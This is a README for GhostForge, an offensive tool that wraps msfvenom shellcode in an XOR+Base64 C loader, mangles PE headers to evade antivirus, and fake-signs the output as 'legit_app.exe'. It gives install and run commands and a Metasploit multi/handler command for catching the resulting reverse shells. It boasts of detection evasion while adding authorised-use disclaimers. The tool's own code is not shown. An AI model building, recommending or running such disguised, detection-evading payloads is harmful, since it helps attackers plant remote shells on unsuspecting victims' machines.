 # 👻 GhostForge

GhostForge is a customizable payload generation and shellcode obfuscation tool designed for red team research, adversary simulation, and malware evasion analysis. It generates XOR+Base64 encoded shellcode loaders in C, compiles them with `mingw-w64`, and optionally signs them with a fake certificate to improve delivery success.

### Here is an image from virustotal of how the GhostForge is able to perform

![Alt text](images/virustotal.png)

### VirusTotal Hash = 4c766532b86772cdb9a36c34c93676609145242e042fdfe423d5ccdb05c509c9

> **⚠️ DISCLAIMER:** This project is intended for **educational and research purposes only**. Do **not** use this tool against systems you do not own or have explicit permission to test. Misuse can be **illegal** and unethical.

---

## 🚀 Features

- Generate shellcode with `msfvenom`
- XOR+Base64 encoding to evade static detection
- C payload loader generator
- Windows PE evasion via `lief` (e.g. header obfuscation, section mangling)
- Optional fake certificate signing using `osslsigncode`
- Supports multiple platforms: Windows, Linux, OSX, Android, PHP, Python, Java

---

## 📦 Requirements

- Linux system (tested on Arch/Manjaro)
- [`msfvenom`](https://docs.metasploit.com/)
- `python3` with:
  - `lief`
- `mingw-w64-gcc` (`x86_64-w64-mingw32-gcc`)
- `osslsigncode`
- `openssl`

### 📥 Install Dependencies (Arch Linux)

```bash
# MSF and osslsigncode
sudo pacman -S metasploit osslsigncode

# Python module
pip install lief

# Cross compiler
paru -S mingw-w64-gcc
```

## 🔧 Usage

```bash
chmod +x ghostforge.sh
./ghostforge.sh
```

- Choose from a list of payloads or input a custom one
- Shellcode will be XOR+Base64 encoded
- A C loader will be generated and compiled to a Windows executable
- PE file will be modified with evasive techniques
- The payload will be fake-signed with a self-signed certificate

### 📁 Output

After completion, you'll find:
```bash
legit_app.exe  # Final obfuscated and signed payload
```

Use msfconsole as the handler:
```bash
msfconsole -qx 'use exploit/multi/handler; set PAYLOAD <your-payload>; set LHOST=<your-ip>; set LPORT=<your-port>; run'
```

## ⚠️ Legal Notice
GhostForge is strictly intended for use in lab environments, red teaming engagements, or penetration testing with appropriate permissions. The developers are not responsible for any damage caused by misuse of this tool.

